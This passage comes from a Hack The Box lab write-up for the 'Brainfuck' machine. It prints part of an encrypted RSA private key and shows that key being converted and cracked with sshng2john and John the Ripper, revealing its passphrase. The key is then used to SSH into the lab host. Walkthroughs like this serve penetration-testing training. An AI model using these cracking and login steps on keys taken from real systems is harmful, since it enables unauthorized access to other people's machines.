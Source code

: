 schqozogcC1UfJcCm6cl+967GFBa3rD5YDp3x2xyIV9SQdwGvH0ZIcp0dKKkMVZt
UX8hTqv1ROR4Ck8G1zM6Wc4QqH6DUqGi3tr7nYwy7wx1JJ6WRhpyWdL+su8f96Kn
F7gwZLtVP87d8R3uAERZnxFO9MuOZU2+PEnDXdSCSMv3qX9FvPYY3OPKbsxiAy+M
wZezLNip80XmcVJwGUYsdn+iB/UPMddX12J30YUbtw/R34TQiRFUhWLTFrmOaLab
Iql5L+0JEbeZ9O56DaXFqP3gXhMx8xBKUQax2exoTreoxCI57axBQBqThEg/HTCy
IQPmHW36mxtc+IlMDExdLHWD7mnNuIdShiAR6bXYYSM3E725fzLE1MFu45VkHDiF
mxy9EVQ+v49kg4yFwUNPPbsOppKc7gJWpS1Y/i+rDKg8ZNV3TIb5TAqIqQRgZqpP
CvfPRpmLURQnvly89XX97JGJRSGJhbACqUMZnfwFpxZ8aPsVwsoXRyuub43a7GtF
9DiyCbhGuF2zYcmKjR5EOOT7HsgqQIcAOMIW55q2FJpqH1+PU8eIfFzkhUY0qoGS
EBFkZuCPyujYOTyvQZewyd+ax73HOI7ZHoy8CxDkjSbIXyALyAa7Ip3agdtOPnmi
6hD+jxvbpxFg8igdtZlh9PsfIgkNZK8RqnPymAPCyvRm8c7vZFH4SwQgD5FXTwGQ
-----END RSA PRIVATE KEY-----

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/1/39.jpg)

paste  to clipboard =cat id_rsa|xclip

 Before we use John the Ripper (JtR) to crack the password used to encrypt the private key, we need to convert the file into JtR format.

To do that I use the sshng2john.py script.

python sshng2john.py ~/Desktop/htb/brainfuck/id_rsa > ~/Desktop/htb/brainfuck/ssh-key‌

Now we can use JtR to crack the password.

john ssh-key --wordlist=/usr/share/wordlists/rockyou.txt 


We get back the following result.

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (/root/Desktop/htb/brainfuck/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-12-26 16:53) 0.08223g/s 1179Kp/s 1179Kc/s 1179KC/sa6_123..*7¡Vamos!
Session completed

 It cracked the password! Let’s use the key and password to SSH into orestis’s machine.
 
 First change the permissions on the encrypted RSA private key.

chmod 600 id_rsa‌


Then SSH into the machine.

ssh -i id_rsa orestis@brainfuck.htb‌


We finally gained an initial foothold!

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/1/40.jpg)
